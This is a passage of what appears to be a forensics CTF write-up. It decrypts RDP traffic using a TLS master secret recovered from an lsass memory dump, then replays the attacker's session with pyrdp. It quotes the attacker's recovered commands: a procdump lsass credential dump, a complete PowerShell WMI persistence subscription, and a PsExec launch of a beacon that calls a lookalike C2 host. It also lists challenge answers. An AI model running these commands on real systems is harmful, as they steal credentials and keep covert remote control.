    Created: 2026-01-20T08:48:41.570Z (1768898921)

.............
```

We discover the file VCS-EXEC-CFO-MRB-002_VCS-Internal-Report.pdf.zip which appears to have been stolen from the CFO's computer

#### A4: `1769849198`
#### A5: `VCS-Internal-Report.pdf`

Additionally, we find the error.dmp file that the attacker exfiltrated from the JUMP01 machine we are investigating. Let's download this file

```
1. Download all
2. Download by ID
3. List files
4. Exit

> 2
File ID: 1B0ulormL5L3P0s-3MjXi-1VRw38eQEoU
Filename (empty=auto):

[*] JUMP01_error.dmp.zip
[+] Saved: /tmp/downloads/JUMP01_error.dmp.zip

1. Download all
2. Download by ID
3. List files
4. Exit
```

Extracting with the password ``6\1p0`BeVm]7/S.`` we obtain the error.dmp file, which is actually an lsass process dump made using what appears to be procdump.exe



The timestamp shows that the lsass dump was created during the RDP traffic session. Since lsass is the process responsible for generating secrets during the handshake (i.e., pre-master and master keys for TLS 1.2), having the lsass memory dump gives us the opportunity to grab the secret to decrypt the RDP traffic.

## Decrypting RDP Session Traffic (TLS 1.2)

Preliminary examination of the RDP session: using TLS 1.2, Cipher suite TLS_RSA_WITH_AES_256_CBC_SHA256 (0x003d), and the session's client random is 697dc080b7a99b0141d0141d873cb4a4a1152e24c3ccb3693578c7ffb4b0c8be



Decrypting TLS 1.2 traffic is much easier - we only need the ephemeral key in the format:

```
CLIENT_RANDOM <client_random> <master secret>
```

To extract the master secret, according to this research https://docs.lib.purdue.edu/open_access_theses/782/, we search for the magic byte `5lss`. From the 5lss address, the secret itself is located at offset 0x1c and has a size of 48 (0x30) bytes.

After grabbing all master secrets, we combine each value with `CLIENT_RANDOM <client_random> ` until we successfully decrypt the pcap with the record `CLIENT_RANDOM 697dc080b7a99b0141d0141d873cb4a4a1152e24c3ccb3693578c7ffb4b0c8be 3944135db2720a1524a483d2faa79ca7f34f2bafe0f578bcd45153c7e5d919d7ef6908ca40ce697434ba9b15d0da4b3c`



We extract the `PDUs` from the capture file using Wireshark, File->Export PDUs, and selecting `OSI Level 7` from the dropdown. This will allow us to use `pyrdp-convert` to export a user-friendly replay of the connection.

**Note:** We can easily install `pyrdp` using `uv tool install -w pyside6 pyrdp-mitm` (`pyside6` is needed for the GUI part)

```
(pyrdp) PS C:\Users\bquanman\Desktop> pyrdp-convert.exe .\exported.pcap -o rdp_data
[*] Analyzing PCAP 'exported.pcap' ...
    - 0.20.0.4:1638404 -> 0.21.0.4:1703940 : plaintext
    - 172.168.200.57:49297 -> 172.168.200.58:3389 : plaintext
[*] Processing 0.20.0.4:1638404 -> 0.21.0.4:1703940
100% (5 of 5) |#########################################################################| Elapsed Time: 0:00:00 Time:  0:00:00

[+] Successfully wrote 'C:\Users\bquanman\Desktop\rdp_data\20260131084246_0.20.0.4_1638404-0.21.0.4_1703940.pyrdp'
[*] Processing 172.168.200.57:49297 -> 172.168.200.58:3389
100% (3316 of 3316) |###################################################################| Elapsed Time: 0:00:00 Time:  0:00:00

[+] Successfully wrote 'C:\Users\bquanman\Desktop\rdp_data\20260131084246_172.168.200.57_49297-172.168.200.58_3389.pyrdp'

(pyrdp) PS C:\Users\bquanman\Desktop\rdp_data> Get-ChildItem -Recurse | ForEach-Object { $_.FullName }
C:\Users\bquanman\Desktop\rdp_data\certs
C:\Users\bquanman\Desktop\rdp_data\files
C:\Users\bquanman\Desktop\rdp_data\filesystems
C:\Users\bquanman\Desktop\rdp_data\20260131084246_172.168.200.57_49297-172.168.200.58_3389.pyrdp
C:\Users\bquanman\Desktop\rdp_data\files\tmp
C:\Users\bquanman\Desktop\rdp_data\files\5b165b01f9a1395cae79e0f85b7a1c10dc089340cf4e7be48813ac2f8686ed61
C:\Users\bquanman\Desktop\rdp_data\files\bc95be4e0d541576875e7696b3f726e58764c74d12a4597ba5998c189807d8a3
C:\Users\bquanman\Desktop\rdp_data\files\edfae1a69522f87b12c6dac3225d930e4848832e3c551ee1e7d31736bf4525ef
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\clipboard
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\device1
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\device2
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\device3
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\device4
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\device5
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\device6
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\device7
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\device8
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\device9
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\clipboard\prcd.exe
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\clipboard\pse.exe
C:\Users\bquanman\Desktop\rdp_data\filesystems\20260131084246_172.168.200.57_49297-172.168.200.58_3389\clipboard\so.exe

(pyrdp) PS C:\Users\bquanman\Desktop\rdp_data> pyrdp-player-gui.exe .\20260131084246_172.168.200.57_49297-172.168.200.58_3389.pyrdp
```

The output shows that the attacker copied the files so.exe, pse.exe, prcd.exe to the RDP server. Checking hashes on VirusTotal confirms the original files correspond to BeaconHttp.exe, PsExec.exe, and Procdump.exe.

Keyboard data replayed when using pyrdp-player

```

--------------------
HOST: JUMP03

--------------------

--------------------
USERNAME: Administrator
PASSWORD: CoffeeMonring@
DOMAIN: JUMP01

--------------------

<Shift pressed>C:
<Shift released>\
<Shift pressed>W
<Shift released>indows\
<Shift pressed>T
<Shift released>emp
<Control pressed>v
--------------------
CLIPBOARD DATA: C:\Windows\Temp\prcd.exe -accepteula -ma lsass.exe error

--------------------

--------------------
CLIPBOARD DATA: $F=([wmiclass]"\\.\root\subscription:__EventFilter").CreateInstance();$F.Name='SystemOptimize';$F.QueryLanguage='WQL';$F.EventNamespace='root\cimv2';$F.Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime>=200 AND TargetInstance.SystemUpTime<320";$F.Put()|Out-Null;$C=([wmiclass]"\\.\root\subscription:CommandLineEventConsumer").CreateInstance();$C.Name='SystemOptimize';$C.CommandLineTemplate='C:\Windows\Temp\so.exe update.microsoft-windows.com 8443 https';$C.Put()|Out-Null;$B=([wmiclass]"\\.\root\subscription:__FilterToConsumerBinding").CreateInstance();$B.Filter=$F;$B.Consumer=$C;$B.Put()|Out-Null
--------------------

<Return released>cmd
--------------------
CLIPBOARD DATA: pse.exe -s -accepteula -i -d C:\Windows\Temp\so.exe update.microsoft-windows.com 8443 https
--------------------
```

Among the executed commands, there is one that creates a WMI permanent event subscription with the object name `SystemOptimize` to maintain persistence and execute commands after the machine has booted for sufficient time.

#### A1: `CoffeeMonring@` 
#### A2: `SystemOptimize`

## Attack Flow

From the behaviors discovered through network traffic analysis and decryption, we have the complete attack flow as follows:


